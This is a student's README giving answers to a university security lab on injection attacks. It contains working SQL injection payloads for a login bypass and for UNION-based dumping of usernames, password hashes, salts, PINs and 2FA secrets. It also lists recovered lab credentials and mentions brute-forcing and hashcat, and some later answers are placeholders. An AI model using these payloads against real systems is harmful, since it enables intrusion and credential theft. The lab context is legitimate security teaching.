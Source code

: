 # KBE-Injections
Second lab of Communication Security course


# Answers
Here are the answers for this lab.

## Exercise 1
Login without password
```
' OR 1=1 #
```

## Exercise 2
I have used Selenium + LIKE operator to find the result in 40 iterations.
```
PIN of 'sinelser' is 3043 
```


## Exercise 3
To steal the secret was enough to use
```
badName' UNION SELECT secret AS username FROM users WHERE username LIKE 'sinelser' #
```

and I've got 
```
AWQJITSIA5MZXDBK   (secret)
```

Then I've generated OTP using Google Authenticator. 

## Exercise 4
To obtain a list of usernames, passwords, salts, secrets and pins I have used
 
```
offset=10 UNION SELECT CONCAT("  USERNAME IS ", username, "  PASSWORD IS  ", password, "  SALT IS  ", salt, "   PIN IS", pin, "  SECRET IS  ", secret) AS date_time, '' AS message FROM users
```

## Exercise 5
To obtain my password I've used BruteForce
```
Password for 'sinelser' is ded93
```


## Exercise 6
To obtain teacher's password I've used prepared script to get a lot of popular passwords
The result file is 587 Mb. Then I have decided to use hashcat to go through all the combinations in that file.
 
```
offset=10 UNION SELECT CONCAT("  USERNAME IS ", username, "  PASSWORD IS  ", password, "  SALT IS  ", salt, "   PIN IS", pin, "  SECRET IS  ", secret) AS date_time, '' AS message FROM users
```

## Exercise 7
 Because it is not good

## Exercise 8
 
```
8
```

## Exercise 9
 
```
9
```


